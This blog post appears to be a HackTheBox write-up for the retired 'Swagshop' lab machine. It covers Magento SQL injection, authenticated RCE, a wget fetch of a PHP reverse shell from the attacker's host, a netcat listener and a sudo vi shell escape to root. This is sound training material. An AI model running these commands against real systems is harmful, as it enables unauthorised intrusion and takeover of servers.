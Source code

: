 ```yaml
---
layout: post
title:  "HTB - Swagshop Write-up"
description: <img src="https://werdinfosec.com/images/2019-09-28/image0.png" class="centered" />

date:   2019-09-28 
categories: hackthebox hack the box swagshop swag shop write-up writeup write up cve:2015-1397
---
```


<img src="https://werdinfosec.com/images/2019-09-28/image1.png" class="centered" />

<br/>

Hostname: swagshop.htb
======================

IP: 10.10.10.140
================

OS: Ubuntu 16.04
================

Difficulty: Easy
================

Creator: ch4p
=============
<br/>
<br/>
<br/>

TL;DR
=====
Swagshop is an easy linux box on HackTheBox, which is running a vulnerable version of Magento. Using a python exploit, a sql injection creates an admin account.
After creating the admin account a remote code execution python exploit allows for downloading a shell to the webroot. After triggering the reverse shell, loose restictions on sudo allow www-data to run 
vi on files in /var/www/html as root with no password. Escaping vi with a classic shell escape provides a shell as root.

<br/>

Enumeration
===========

Enumeration starts with a quick nmap scan. This reveals two open ports, 22 and 80. 

*command: nmap -sC -sV 10.10.10.140*
<img src="https://werdinfosec.com/images/2019-09-28/image2.png" class="centered" />

Visiting port 80 a magento page is discovered. 

*url: http://10.10.10.140*
<img src="https://werdinfosec.com/images/2019-09-28/image3.png" class="centered" />

Magento version enumeration is done by visting RELEASE_NOTES.txt

*url:http://10.10.10.140/RELEASE_NOTES.txt*
<img src="https://werdinfosec.com/images/2019-09-28/image4.png" class="centered" />

<br/>

Exploitation
============

The first [exploit] used creates an admin user on the Magento Web Application through a sql injection.

*command: searchsploit magento*
<img src="https://werdinfosec.com/images/2019-09-28/image5.png" class="centered" />

Mirroring the exploit to the working directory.

*command: searchsploit -m exploits/xml/webapps/37877.py*
<img src="https://werdinfosec.com/images/2019-09-28/image6.png" class="centered" />

For the exploit to work, remove all uncommented text. We are required to add the target ip to the exploit. The path has to be altered, as it is incorrect.

<img src="https://werdinfosec.com/images/2019-09-28/image7.png" class="centered" />

Set the new admin username and password to anything you'd like. I chose the username and password newadmin:hacker

<img src="https://werdinfosec.com/images/2019-09-28/image8.png" class="centered" />

Running the modified exploit.

*command python magentoexploit.py*
<img src="https://werdinfosec.com/images/2019-09-28/image9.png" class="centered" />

Logging in as 'newadmin to confirm that we have created a valid admin user.

*url: http://10.10.10.140/index.php/admin/*
<img src="https://werdinfosec.com/images/2019-09-28/image10.png" class="centered" />

<br/>

Remote Code Execution Exploit
=============================

Finding an [Authenticated Remote Code Execution Exploit].

<img src="https://werdinfosec.com/images/2019-09-28/image11.png" class="centered" />

Mirroring the exploit to current directory.

<img src="https://werdinfosec.com/images/2019-09-28/image12.png" class="centered" />

The exploit requires the exact date and time of the installation. This information can be found at /app/etc/local.xml

*url: http://10.10.10.140/app/etc/local.xml*
<img src="https://werdinfosec.com/images/2019-09-28/image13.png" class="centered" />

This exploit requires that username and password are defined. Change the install_date variable to reflect local.xml. Also the manual username control prevents the exploit from executing successfully.

<img src="https://werdinfosec.com/images/2019-09-28/image14.png" class="centered" />
<img src="https://werdinfosec.com/images/2019-09-28/image15.png" class="centered" />

Running the exploit. Executing whoami and pwd.

*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "whoami"*
*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "pwd"*
<img src="https://werdinfosec.com/images/2019-09-28/image16.png" class="centered" />

Downloading a reverse shell to /var/www/html allows for executing the php when triggered through a web browser. 
Starting python simpleHTTPserver to serve the [pentest monkey reverse shell]. Don't forget to change the IP and Port variable to reflect the attacker's listener information.

*command: python -m SimpleHTTPServer 80*
<img src="https://werdinfosec.com/images/2019-09-28/image17.png" class="centered" />

Downloading the reverse shell with the exploits remote code execution.

*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "wget http://10.10.14.20/revsh.php"*
<img src="https://werdinfosec.com/images/2019-09-28/image18.png" class="centered" />

Starting a netcat listener:

*command: nc -lvnp 443*
<img src="https://werdinfosec.com/images/2019-09-28/image19.png" class="centered" />

Triggering the reverse shell.

*url: http://10.10.10.140/revsh.php*
<img src="https://werdinfosec.com/images/2019-09-28/image20.png" class="centered" />

Catching the reverse shell as user www-data

<img src="https://werdinfosec.com/images/2019-09-28/image21.png" class="centered" />

Privilege Escalation
====================

First things first, upgrade to a tty with python3. Python 2 is not on this system, but python3 is. 

*command: python3 -c "import pty; pty.spawn('/bin/bash')"*
<img src="https://werdinfosec.com/images/2019-09-28/image22.png" class="centered" />

It appears www-data can run /usr/bin/vi on any file in the /var/www/html directory as root without a password.

*command: sudo -l*
<img src="https://werdinfosec.com/images/2019-09-28/image23.png" class="centered" />

Running the following command will start vi as root. Using vi we can execute any bash command by prepending the command with ':!'.

*command: sudo vi /var/www/html/anyfile*
<img src="https://werdinfosec.com/images/2019-09-28/image24.png" class="centered" />

The shell escape sequence:

*command: :! /bin/bash*
<img src="https://werdinfosec.com/images/2019-09-28/image25.png" class="centered" />

<br/>

ROOTED
======

<img src="https://werdinfosec.com/images/2019-09-28/image26.png" class="centered" />

Flags:

<img src="https://werdinfosec.com/images/2019-09-28/image27.png" class="centered" />


[pentest monkey reverse shell]:https://github.com/pentestmonkey/php-reverse-shell
[Authenticated Remote Code Execution Exploit]:https://www.exploit-db.com/exploits/37811
[exploit]:https://www.exploit-db.com/exploits/37977
